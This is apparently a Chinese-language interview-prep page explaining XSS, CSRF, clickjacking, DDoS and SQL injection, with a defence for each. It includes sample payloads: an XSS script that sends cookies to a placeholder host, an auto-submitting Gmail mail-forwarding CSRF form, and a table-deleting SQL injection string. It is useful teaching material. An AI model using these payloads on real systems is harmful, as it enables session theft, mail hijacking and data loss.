

# 前端攻击

## 题目

你所了解的前端攻击手段有哪些，该如何预防？

## XSS

Cross Site Scripting 跨站脚本攻击

用户通过某种方式（如输入框、文本编辑器）输入一些内容，其中带有攻击代码（JS 代码）。<br>
该内容再显示时，这些代码也将会被执行，形成了攻击效果。

```html
<!-- 例如用户提交的内容中有： -->
<script>
    var img = document.createElement('img')
    img.src = 'http://xxx.com/api/xxx?userInfo=' + document.cookie // 将 cookie 提交到自己的服务器
</script>
```

最简单的解决方式：替换特殊字符

```js
const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
```

也可以使用第三方工具，例如
- https://www.npmjs.com/package/xss
- https://www.npmjs.com/package/escape-html

现代框架默认会屏蔽 XSS 攻击，除非自己手动开启
- Vue `v-html`
- React `dangerouslySetInnerHTML`

## CSRF

Cross-site request forgery 跨站请求伪造

请看下面的故事
- 小明登录了 Gmail 邮箱，收到一封广告邮件 “转让比特币，只要 998”
- 小明抱着好奇的心态点开看了看，发现是个空白页面，就关闭了

但此时，攻击已经完成了。黑客在这个空白页面设置了 js 代码，会让小明的邮件都转发到 `hacker@hackermail.com` 。<br>
因为小明已经登录了 Gmail ，有了 Gmail 的 cookie 。所以再去请求 Gmail API 就会带着 cookie ，就有可能成功。

```html
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/> 
    .....
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form> 
<script> 
    document.forms[0].submit();

    // PS：有些是 post 请求，有些是 get 请求
    //     get 请求如果用 img.src 还可以规避跨域，更加危险
</script>
```

邮件经常用来接收验证码，这是很危险的事情。<br>
当然了，后来 Gmail 修复了这个漏洞。但新的故事仍在不断发生中。

CSRF 的过程
- 用户登录了 `a.com` ，有了 cookie
- 黑客引诱用户访问 `b.com` 网页，并在其中发起一个跨站请求 `a.com/api/xxx`
- `a.com` API 收到 cookie ，误以为是真实用户的请求，就受理了

CSRF 的预防
- 严格的跨域请求限制
- 为 cookie 设置 `SameSite` 不随跨域请求被发送 `Set-Cookie: key1=val1; key2=val2; SameSite=Strict;`
- 关键接口使用短信验证码等双重验证

## 点击劫持 Clickjacking

小明被诱导到一个钓鱼网站，点击了一个按钮，其实已经关注了慕课网双越老师。因为他可能已经登录了慕课网。<br>
这可以是关注，也可以是付款转账等其他危险操作。



点击劫持的原理：黑客在自己的网站，使用隐藏的 `<iframe>` 嵌入其他网页，诱导用户按顺序点击。

使用 JS 预防

```js
if (top.location.hostname !== self.location.hostname) {
    alert("您正在访问不安全的页面，即将跳转到安全页面！")
    top.location.href = self.location.href
}
```

增加 http header `X-Frame-Options:SAMEORIGIN` ，让 `<iframe>` 只能加载同域名的网页。

PS：点击劫持，攻击那些需要用户点击操作的行为。CSRF 不需要用户知道，偷偷完成。

## DDoS

Distributed denial-of-service 分布式拒绝服务

通过大规模的网络流量淹没目标服务器或其周边基础设施，以破坏目标服务器、服务或网络正常流量的恶意行为。<br>
类似于恶意堵车，妨碍正常车辆通行。

网络上的设备感染了恶意软件，被黑客操控，同时向一个域名或者 IP 发送网络请求。因此形成了洪水一样的攻击效果。<br>
由于这些请求都来自分布在网络上的各个设备，所以不太容易分辨合法性。

DDoS 的预防：软件层面不好做，可以选择商用的防火墙，如[阿里云 WAF](https://www.aliyun.com/product/waf?spm=5176.7967425.J_8058803260.34.3d017748VkTlhL)。

PS：阮一峰的网站就曾遭遇过 DDoS 攻击 https://www.ruanyifeng.com/blog/2018/06/ddos.html

## SQL 注入

普通的登录方式，输入用户名 `zhangsan` 、密码 `123` ，然后服务端去数据库查询。<br>
会执行一个 sql 语句 `select * from users where username='zhangsan' and password='123'` ，然后判断是否找到该用户。

如果用户输入的是用户名 `' delete from users where 1=1; --` ，密码 `'123'`<br>
那生成的 sql 语句就是 `select * from users where username='' delete from users where 1=1; --' and password='123'`<br>
这样就会把 `users` 数据表全部删除。

防止 SQL 注入：服务端进行特殊字符转换，如把 `'` 转换为 `\'`

## 答案

- XSS
- CSRF
- 点击劫持
- DDoS
- SQL 注入
